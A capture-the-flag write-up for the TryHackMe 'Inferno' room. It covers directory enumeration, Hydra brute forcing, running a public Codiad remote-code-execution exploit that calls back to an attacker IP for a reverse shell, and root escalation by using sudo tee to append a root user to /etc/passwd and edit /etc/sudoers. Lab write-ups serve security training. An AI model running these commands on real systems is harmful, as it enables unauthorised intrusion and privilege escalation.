 # 69 - Inferno

Room Link --> [https://tryhackme.com/room/inferno](https://tryhackme.com/room/inferno)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.103.251/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error

/inferno
```
{% endcode %}

We have an authentication page

<figure><img src=".gitbook/assets/image (463).png" alt=""><figcaption></figcaption></figure>

#### Bruteforce with Hydra

<figure><img src=".gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

`admin : dante1` .

Logged in&#x20;

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

We search Google for any exploit since we are authenticated as admin user and found: this [repo](https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit)

So because we are authenticating twice, we use the cmd:

{% code overflow="wrap" lineNumbers="true" %}
```
python2.7 exploit.py http://admin:dante1@10.10.103.251/inferno/ admin dante1 10.18.88.214 9001 linux
```
{% endcode %}

And got shell

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a .Download.dat file in the /home/dante dir, contains some cipher text.

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We got an SSH credentials: `dante : V1rg1l10h3lpm3`&#x20;

And we are logged in.

### Priv Esc

`sudo -l` - we can run tee as root.

There’s a binary available to run it as sudo. “**tee”** reads from standard input and write to standard output and files. So, we can edit any configuration file to gain root shell

We can use tee to add config to files.

#### /etc/passwd file

Lets add a new root user to /etc/passwd file

{% code overflow="wrap" %}
```bash
dante@Inferno:~$ LFILE=/etc/passwd

dante@Inferno:~$ echo "dking:$(openssl passwd -6 -salt noraj password):0:0:noraj:/root:/bin/bash" | sudo tee -a "$LFILE"

dante@Inferno:~$ su dking
```
{% endcode %}

And we are root.

Or

#### Sudoers file

We can also add dante to the sudoers file to execute all sudo cmds.

```bash
echo "dante ALL=(root) ALL" | sudo tee -a /etc/sudoers o tee -a /etc/sudoers
```

Done!

